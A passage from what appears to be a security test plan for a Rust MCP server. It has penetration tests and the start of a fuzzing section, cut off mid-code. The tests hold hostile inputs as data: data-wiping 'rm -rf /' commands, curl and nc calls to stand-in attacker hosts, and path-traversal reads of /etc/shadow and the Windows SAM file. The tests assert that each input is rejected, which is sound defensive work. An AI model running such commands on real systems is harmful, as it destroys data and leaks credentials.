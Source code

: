 **Purpose**: Validate security controls and threat mitigation.

**Security Test Categories**:

#### 4.1 Penetration Tests

```rust
#[cfg(test)]
mod penetration_tests {
    use super::*;

    #[tokio::test]
    async fn test_command_injection_resistance() {
        let server = MCPServer::new_test();

        let malicious_commands = vec![
            "cargo build; rm -rf /",
            "cargo build && curl evil.com/exfiltrate",
            "cargo build | nc attacker.com 4444",
            "cargo build; python -c 'import os; os.system(\"rm -rf /\")'",
        ];

        for cmd in malicious_commands {
            let result = server.execute_command(cmd).await;
            assert!(matches!(result, Err(SecurityError::MaliciousInput)));
        }
    }

    #[tokio::test]
    async fn test_path_traversal_prevention() {
        let server = MCPServer::new_test();

        let malicious_paths = vec![
            "../../../etc/passwd",
            "..\\..\\..\\windows\\system32\\config\\sam",
            "/etc/shadow",
            "C:\\Windows\\System32\\drivers\\etc\\hosts",
        ];

        for path in malicious_paths {
            let result = server.execute_command(&format!("cargo build --manifest-path {}", path)).await;
            assert!(matches!(result, Err(SecurityError::UnauthorizedAccess)));
        }
    }
}
```

#### 4.2 Fuzzing Tests

```rust
use arbitrary::{Arbitrary, Unstructured};
use quickcheck::{Gen, QuickCheck};

#[derive(Debug, Clone, Arbitrary)]
struct FuzzInput {
    command: String,
    arguments: Vec<String>,
    working_directory: String,
}

impl quickcheck::Arbitrary for FuzzInput {
    fn arbitrary(g: &mut Gen) -> Self {
        FuzzInput {
            command: String::arbitrary(g),
            arguments: Vec::arbitrary(g),
```